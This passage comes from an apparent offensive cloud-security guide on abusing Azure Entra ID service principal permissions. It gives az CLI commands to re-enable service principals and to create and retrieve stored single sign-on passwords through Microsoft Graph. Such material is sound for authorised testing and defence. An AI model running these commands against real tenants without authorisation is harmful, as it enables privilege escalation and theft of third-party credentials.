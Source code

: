 > [!CAUTION]
> After adding a new owner, I tried to remove it but the API responded that the DELETE method wasn't supported, even if it's the method you need to use to delete the owner. So you **can't remove owners nowadays**.

### `microsoft.directory/servicePrincipals/disable` and `enable`

These permissions allows to disable and enable service principals. An attacker could use this permission to enable a service principal he could get access to somehow to escalate privileges.

Note that for this technique the attacker will need more permissions in order to take over the enabled service principal.

```bash
# Disable
az ad sp update --id <ServicePrincipalId> --account-enabled false

# Enable
az ad sp update --id <ServicePrincipalId> --account-enabled true
```

#### `microsoft.directory/servicePrincipals/getPasswordSingleSignOnCredentials` & `microsoft.directory/servicePrincipals/managePasswordSingleSignOnCredentials`

These permissions allow to create and get credentials for single sign-on which could allow access to third-party applications.

```bash
# Generate SSO creds for a user or a group
spID="<spId>"
user_or_group_id="<id>"
username="<username>"
password="<password>"
az rest --method POST \
  --uri "https://graph.microsoft.com/beta/servicePrincipals/$spID/createPasswordSingleSignOnCredentials" \
  --headers "Content-Type=application/json" \
  --body "{\"id\": \"$user_or_group_id\", \"credentials\": [{\"fieldId\": \"param_username\", \"value\": \"$username\", \"type\": \"username\"}, {\"fieldId\": \"param_password\", \"value\": \"$password\", \"type\": \"password\"}]}"


# Get credentials of a specific credID
credID="<credID>"
az rest --method POST \
  --uri "https://graph.microsoft.com/v1.0/servicePrincipals/$credID/getPasswordSingleSignOnCredentials" \
  --headers "Content-Type=application/json" \
  --body "{\"id\": \"$credID\"}"
```

---
